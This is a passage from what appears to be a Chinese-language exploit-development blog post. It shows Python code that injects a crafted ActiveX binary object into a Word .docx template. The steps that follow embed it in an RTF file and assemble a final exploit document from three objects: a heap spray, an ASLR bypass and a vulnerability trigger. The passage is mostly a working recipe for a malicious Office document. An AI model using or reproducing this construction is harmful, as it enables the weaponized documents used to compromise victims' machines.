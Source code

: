 ```python
    zip_docx = template_path + ".zip"
    current_dir = os.path.abspath(os.path.dirname(__file__))
    new_path = os.path.join(current_dir, "exp", os.path.basename(zip_docx)) 
    if os.path.exists(new_path):
        os.remove(new_path)

    shutil.copy(template_path, new_path) 
    zip_docx = new_path
    # open temp docx and a copy for modification 
    zin = zipfile.ZipFile(zip_docx, 'r') 
    zip_docx_copy = zip_docx + "_copy_" 
    zout = zipfile.ZipFile(zip_docx_copy, "w")
    # modify the docx template with exploit 
    for item in zin.infolist ():
        if item.filename.find("activeX1") >= 0 and item.filename.find(".bin") >= 0: 
            pass
        else:
            buffer = zin.read(item.filename)
            zout.writestr(item, buffer) # use existing file
            
    zout.writestr("word/activeX/" + "activeX1.bin", object_bin_data) 
    zout.close () 
    zin.close ()
    # convert to docx
    os.rename (zip_docx_copy, final_docx_name) 
    os.remove(zip_docx)

pack_file_to_open_xml_docx(template_path, final_docx_name, activeX_bin_path)
```

新建一个rtf文件，将替换好的docx文件添加到rtf文件中，保存后使用010Editor打开，搜索object，将{\object和{\*\objdata的全部内容复制:

![image-20210804120429898](https://raw.githubusercontent.com/JoeyZzZzZz/JoeyZzZzZz.github.io/main/Picture/image-20210804120429898.png)

再新建一个rtf文件，按照堆喷射、Bypass ASLR和漏洞触发的顺序添加三个对象。堆喷射的内容就是上方复制好的内容，其他两个可以直接在原EXP中复制过来即可，最终EXP的结构如下所示：

![image-20210804141320122](https://raw.githubusercontent.com/JoeyZzZzZz/JoeyZzZzZz.github.io/main/Picture/image-20210804141320122.png)
